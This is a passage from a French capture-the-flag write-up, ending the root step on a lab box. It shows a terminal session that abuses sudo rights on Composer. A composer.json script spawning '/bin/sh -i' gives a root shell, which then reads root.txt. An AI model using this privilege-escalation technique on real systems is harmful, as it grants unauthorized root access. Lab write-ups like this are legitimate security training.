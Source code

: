 En fouillant dans [la documentation](https://getcomposer.org/doc/03-cli.md#run-script) je note deux utilisations intéressantes :  

* run-script : To run scripts manually you can use this command, give it the script name and optionally any required arguments.
* exec : Executes a vendored binary/script. You can execute any command and this will ensure that the Composer bin-dir is pushed on your PATH before the command runs.

La documentation décrit aussi comment on peut définir [les scripts via une liste de hooks](https://getcomposer.org/doc/articles/scripts.md#defining-scripts).  

J'avoue que j'ai préféré me baser sur le GTFObin pour avoir un exemple tout fait :  

```plain
coffeez@snow-med:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json    
coffeez@snow-med:~$ sudo /usr/local/bin/composer --working-dir=. run-script x 
[sudo] password for coffeez:  
Do not run Composer as root/super user! See https://getcomposer.org/root for details 
Continue as root/super user [yes]? yes 
> /bin/sh -i 0<&3 1>&3 2>&3 
# id 
uid=0(root) gid=0(root) groups=0(root) 
# cd /root 
# ls 
root.txt  snap 
# cat root.txt 

███████ ███    ██  ██████  ██     ██ ████████  █████  ██      ██   ██ ███████   
██      ████   ██ ██    ██ ██     ██    ██    ██   ██ ██      ██  ██  ██        
███████ ██ ██  ██ ██    ██ ██  █  ██    ██    ███████ ██      █████   ███████   
     ██ ██  ██ ██ ██    ██ ██ ███ ██    ██    ██   ██ ██      ██  ██       ██   
███████ ██   ████  ██████   ███ ███     ██    ██   ██ ███████ ██   ██ ███████   

    ██████   ██████  ██████  ██████                                             
         ██ ██  ████      ██      ██                                            
     █████  ██ ██ ██  █████   █████                                             
    ██      ████  ██ ██      ██                                                 
    ███████  ██████  ███████ ███████                                            

███    ███ ███████ ██████  ██ ██    ██ ███    ███     ██████   ██████  ██   ██  
████  ████ ██      ██   ██ ██ ██    ██ ████  ████     ██   ██ ██    ██  ██ ██   
██ ████ ██ █████   ██   ██ ██ ██    ██ ██ ████ ██     ██████  ██    ██   ███    
██  ██  ██ ██      ██   ██ ██ ██    ██ ██  ██  ██     ██   ██ ██    ██  ██ ██   
██      ██ ███████ ██████  ██  ██████  ██      ██     ██████   ██████  ██   ██  

    ██████   ██████   ██████  ████████ ███████ ██████                           
    ██   ██ ██    ██ ██    ██    ██    ██      ██   ██                          
    ██████  ██    ██ ██    ██    ██    █████   ██   ██                          
    ██   ██ ██    ██ ██    ██    ██    ██      ██   ██                          
    ██   ██  ██████   ██████     ██    ███████ ██████                           

I hope you enjoyed this box. 

Twitter:  @iamv1nc3nt
```

Bon CTF mais on ne pense jamais à partir sur le scénario de l'écoute du réseau.

*Published February 08 2022 at 21:10*
